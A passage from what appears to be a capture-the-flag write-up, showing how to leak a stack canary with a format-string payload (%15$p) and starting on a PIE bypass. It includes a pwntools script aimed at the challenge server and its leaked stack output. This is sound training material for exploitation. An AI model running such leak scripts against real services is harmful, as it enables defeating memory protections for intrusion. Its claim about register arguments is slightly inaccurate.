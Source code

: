 There's the stack canary. We know that that's the canary because it ends with a null byte. Counting from the top we see that it's the 10th element on the stack. So therefore our format string would be %10$p? No. Keep in mind that when calling a function on 64bit, the first 5 arguments are stored in registers, then on the stack. So the correct format string payload is %15$p.

Good, we now know how to leak the stack canary. Next we have to bypass PIE.

## Bypassing PIE

Bypasing PIE consists of leaking an instruction address so we can calculate the program's base(the random address in memory where the program is loaded).

Here comes the confusing part. Looking at the screenshot above we see that we have \<main + 0\>'s address. While this is infact true on our local machine, this is not true on the remote machine. To keep things simple, we have to leak main's return address, not main's address.

I wrote the following script to leak some data of the stack

```python
from pwn import *

e = ELF("./pwn_secret")
#p = e.process()
p = remote("34.159.78.10", 30783)
context.binary = e

p.clean()

s = ""

for i in range(10, 19):
    s += ".%" + str(i) + "$p"

p.sendline(s)
output = p.recvuntil(b"Enter")
output = output.decode().replace(".", "\n")

print(output)
```

It'a really simple script. Here's the output:

```
Hillo
0x3631252e70243531
0x70243731252e7024
0xa70243831252e
(nil)
0x7ffc64159050
0xae3ef3933a48e900 <-- canary(identified by the null bytes at the end)
0x55993e600c40 <-- __libc_csu_init address
0x7f5efcfb6830
(nil)
```
